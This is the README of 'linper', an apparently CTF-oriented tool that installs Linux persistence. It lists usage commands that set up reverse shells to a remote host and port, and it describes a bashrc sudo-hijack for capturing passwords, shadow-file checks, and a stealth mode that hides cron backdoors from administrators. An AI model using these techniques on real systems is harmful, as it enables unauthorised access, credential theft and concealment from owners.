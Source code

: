 # linper

Automated Linux Persistence Establishment

Automatically install multiple methods of persistence, or just enumerate possible methods.

## advisory

This was developed with CTFs in mind and that is its intended use case. The stealth-mode option is for King of the Hill style competitions where others might try and tamper with your persistence. Please do not use this tool in an unethical or illegal manner.

## files

- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me
- gtfobins/ - directory containing (possibly modified) snippets of code from [gtfobins](https://gtfobins.github.io/) as I am working on integrating them into the overall script

## usage

Enumerate all persistence methods and install

`bash linper.sh --rhost 10.10.10.10 --rport 4444`
`bash linper.sh -i 10.10.10.10 -p 4444`

Enumerate and do not install

`bash linper.sh --dryrun`
`bash linper.sh -d`

Enumerate all persistence methods and install (stealth mode)

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`
`bash linper.sh -i 10.10.10.10 -p 4444 -s`

## methodology

1. Enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is set

2. Sudo hijack attack - Enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack that binary". Thanks to [this Null Byte article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea.

3. Web Server Poison Attack - Enumerates whether or not the webserver's directories are writable (this feature will be expanded, see TODO.md)

4. Shadow file enumeration - Enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

## stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. Makes the files related to installing services hidden by prepending a "."

2. Disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. Creates a `crontab` function in \~/.bash\_aliases to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells.

### known limitation

1. If you run `--stealth-mode` as a sudo enabled user, be aware that you can bypass the `crontab` function installed in \~/.bash\_aliases because aliases are not preserved when running `sudo`, nor does `sudo` call the `root` user aliases. (This does not interfere with the sudo hijack attack)
